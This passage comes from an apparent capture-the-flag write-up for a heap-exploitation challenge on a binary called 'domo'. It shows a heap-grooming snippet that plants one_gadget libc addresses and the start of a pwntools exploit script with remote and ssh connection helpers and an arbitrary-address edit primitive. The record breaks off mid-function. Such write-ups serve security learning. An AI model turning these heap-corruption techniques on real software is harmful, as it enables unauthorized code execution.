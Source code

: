```
creat(sh,0x100,p64(0) * 2 + p64(libc.address + 0xf02a4) * 19 + p64(0) * 3)
creat(sh,0x60, 'Chunk')
creat(sh,0x60, p64(0xffffffff) + "x00" * 0x10 + p64(heap_address + 0x4E0))
```

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

domo=ELF('./domo', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./domo")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./domo")

def creat(sh,chunk_size,value):
    sh.recvuntil('&gt; ')
    sh.sendline('1')
    sh.recvuntil('size:n')
    sh.sendline(str(chunk_size))
    sh.recvuntil('content:n')
    sh.send(value)

def delete(sh,index):
    sh.recvuntil('&gt; ')
    sh.sendline('2')
    sh.recvuntil('index:n')
    sh.sendline(str(index))

def show(sh,index):
    sh.recvuntil('&gt; ')
    sh.sendline('3')
    sh.recvuntil('index:n')
    sh.sendline(str(index))

def every_where_edit(sh,vuln_addr,vuln_byte):
    sh.recvuntil('&gt; ')
    sh.sendline('4')
    sh.recvuntil('addr:n')
```